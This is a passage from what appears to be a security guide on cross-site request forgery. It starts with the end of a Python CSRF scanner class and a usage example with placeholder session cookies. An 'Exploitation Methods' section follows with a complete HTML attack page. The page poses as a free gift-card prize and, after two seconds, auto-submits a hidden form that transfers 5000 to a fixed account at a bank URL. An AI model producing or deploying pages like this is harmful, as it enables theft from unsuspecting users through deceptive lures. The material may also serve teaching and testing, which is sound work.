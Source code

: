 ```python
                })
        except Exception as e:
            pass
    
    def scan(self):
        """Run comprehensive CSRF scan"""
        print(f"[+] Starting CSRF scan for {self.target_url}")
        
        forms = self.find_forms()
        print(f"[+] Found {len(forms)} forms to analyze")
        
        for i, form in enumerate(forms):
            print(f"[+] Analyzing form {i+1}")
            self.test_csrf_vulnerability(form)
        
        return self.vulnerabilities

# Usage example
session_cookies = {
    'session_id': 'abc123',
    'auth_token': 'xyz789'
}

detector = CSRFDetector("https://vulnerable-app.com/profile", session_cookies)
vulnerabilities = detector.scan()

for vuln in vulnerabilities:
    print(f"Found: {vuln['type']} at {vuln['url']}")
```##
 ⚔️ Exploitation Methods

### 1. 💰 Financial Transaction CSRF

#### Banking Transfer Attack
```html
<!-- Malicious page that performs money transfer -->
<!DOCTYPE html>
<html>
<head>
    <title>Free Gift Card!</title>
</head>
<body>
    <h1>Congratulations! You've won a $100 gift card!</h1>
    <p>Processing your reward...</p>
    
    <!-- Hidden CSRF form -->
    <form id="transfer-form" action="https://bank.com/transfer" method="POST" style="display:none;">
        <input type="hidden" name="amount" value="5000">
        <input type="hidden" name="to_account" value="123456789">
        <input type="hidden" name="description" value="Gift">
    </form>
    
    <script>
        // Auto-submit after 2 seconds
        setTimeout(function() {
            document.getElementById('transfer-form').submit();
        }, 2000);
    </script>
</body>
</html>
```
